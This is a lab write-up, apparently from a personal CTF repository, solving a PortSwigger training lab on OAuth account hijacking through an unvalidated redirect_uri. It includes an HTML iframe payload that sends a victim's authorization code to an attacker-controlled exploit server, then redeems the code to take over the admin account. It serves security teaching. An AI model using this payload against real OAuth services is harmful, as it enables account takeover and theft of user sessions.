 # OAuth account hijacking via redirect_uri

## Introduction

Welcome to my another writeup! In this Portswigger Labs [lab](https://portswigger.net/web-security/oauth/lab-oauth-account-hijacking-via-redirect-uri), you'll learn: OAuth account hijacking via redirect_uri! Without further ado, let's dive in.

- Overall difficulty for me (From 1-10 stars): ★☆☆☆☆☆☆☆☆☆

## Background

This lab uses an [OAuth](https://portswigger.net/web-security/oauth) service to allow users to log in with their social media account. A misconfiguration by the OAuth provider makes it possible for an attacker to steal authorization codes associated with other users' accounts.

To solve the lab, steal an authorization code associated with the admin user, then use it to access their account and delete Carlos.

The admin user will open anything you send from the exploit server and they always have an active session with the OAuth service.

You can log in with your own social media account using the following credentials: `wiener:peter`.

## Exploitation

**Home page:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/OAuth-Authentication/OAuth-3/images/Pasted%20image%2020230107022614.png)

Let's try to login by clicking the "My account" link:

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/OAuth-Authentication/OAuth-3/images/Pasted%20image%2020230107022645.png)

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/OAuth-Authentication/OAuth-3/images/Pasted%20image%2020230107022657.png)

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/OAuth-Authentication/OAuth-3/images/Pasted%20image%2020230107022703.png)

When we redirected to `/social-login`, it'll send a GET request to `/auth`, with parameters:

- `client_id`: `m2jcb3vfzwnsy33idi19v`
- `redirect_uri`: `https://0a83006b04184d3dc0c10e90002a0095.web-security-academy.net/oauth-callback`
- `response_type`: `code`
- `scope`: `openid profile email`

In the above `response_type`, it's set to `code`, which tells us **the OAuth grant type is authorization code.**

Also, it's missing the `state` parameter, which helps to prevent CSRF (Cross-Site Request Forgery) attack.

Let's finish the OAuth flow:

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/OAuth-Authentication/OAuth-3/images/Pasted%20image%2020230107023003.png)

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/OAuth-Authentication/OAuth-3/images/Pasted%20image%2020230107023016.png)

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/OAuth-Authentication/OAuth-3/images/Pasted%20image%2020230107023034.png)

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/OAuth-Authentication/OAuth-3/images/Pasted%20image%2020230107023510.png)

Armed with above information, we can try to modify the `redirect_uri` to our exploit server access log via Burp Suite. So we can steal victim's `code` parameter value, and hijack victim's session.

Let's test it:

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/OAuth-Authentication/OAuth-3/images/Pasted%20image%2020230107023810.png)

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/OAuth-Authentication/OAuth-3/images/Pasted%20image%2020230107023829.png)

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/OAuth-Authentication/OAuth-3/images/Pasted%20image%2020230107023851.png)

It worked!

**Now, we can craft a CSRF payload to steal victim's `code` parameter value:**
```html
<html>
    <head>
        <title>OAuth-3</title>
    </head>
    <body>
        <iframe src="https://oauth-0add009804b34dc2c02b0cae022a0026.web-security-academy.net/auth?client_id=m2jcb3vfzwnsy33idi19v&redirect_uri=https://exploit-0a6700f904744d64c0cf0d3a019c0009.exploit-server.net/log&response_type=code&scope=openid%20profile%20email"></iframe>
    </body>
</html>
```

> Note: The OAuth service provider is in a different subdomain.

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/OAuth-Authentication/OAuth-3/images/Pasted%20image%2020230107030333.png)

Exploit server access log:

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/OAuth-Authentication/OAuth-3/images/Pasted%20image%2020230107030358.png)

Nice! We got it!

**Now, we can send a GET request to `/oauth-callback?code=WbhQtp-Zy9tGAIZQ2GViRUn5RJeeEGXE6GbukOWm_u3`:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/OAuth-Authentication/OAuth-3/images/Pasted%20image%2020230107030456.png)

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/OAuth-Authentication/OAuth-3/images/Pasted%20image%2020230107030504.png)

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/OAuth-Authentication/OAuth-3/images/Pasted%20image%2020230107030511.png)

I'm user administrator!

Let's go to the admin panel and deleter user `carlos`:

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/OAuth-Authentication/OAuth-3/images/Pasted%20image%2020230107030536.png)

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/OAuth-Authentication/OAuth-3/images/Pasted%20image%2020230107030543.png)

# What we've learned:

1. OAuth account hijacking via redirect_uri